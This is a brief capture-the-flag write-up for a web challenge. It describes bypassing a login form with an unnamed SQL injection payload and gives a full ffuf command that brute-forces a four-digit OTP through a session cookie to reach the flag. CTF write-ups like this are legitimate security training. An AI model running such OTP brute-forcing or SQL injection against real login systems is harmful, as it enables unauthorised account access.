* Again, it's a login page. https://mudpmd.hackingbrawl.com/

![image](https://user-images.githubusercontent.com/43957261/126001906-689cdcad-28ba-4a24-b3ae-af97cd55b685.png)

* SQLi was bypassed with a common payload.
* Then, https://mudpmd.hackingbrawl.com/validate_login.php asks us to provide otp. Luckily, at this point, guessing that the OTP would be a 4 digit OTP worked. (Bruteforcing seemed to be the only option now, with the numbers ranging from 0000-9999 -> num.txt, which is nothing but the wordlist)

![image](https://user-images.githubusercontent.com/43957261/126002275-627ad73c-e0bb-4d5f-8e47-cc8cb78676d1.png)

* `ffuf` was used with the PHPSESSIONID of the `validate_login` page.
```bash
ffuf -u https://mudpmd.hackingbrawl.com/validate_login.php -b 'PHPSESSID=41vmugnlapp6vhka6ak6teqjo3' -w num.txt -d 'code=FUZZ&btnValidate=' -H 'Content-Type: application/x-www-form-urlencoded' -fr Error
```
* `7621` is the OTP. 

![image](https://user-images.githubusercontent.com/43957261/125999210-b85ee607-6a4b-4405-935d-c5280e51f7d6.png)

* `ctf{youdidit}` is the flag

![image](https://user-images.githubusercontent.com/43957261/126000972-516193e2-80e6-467e-ae81-e0d0c362d33c.png)
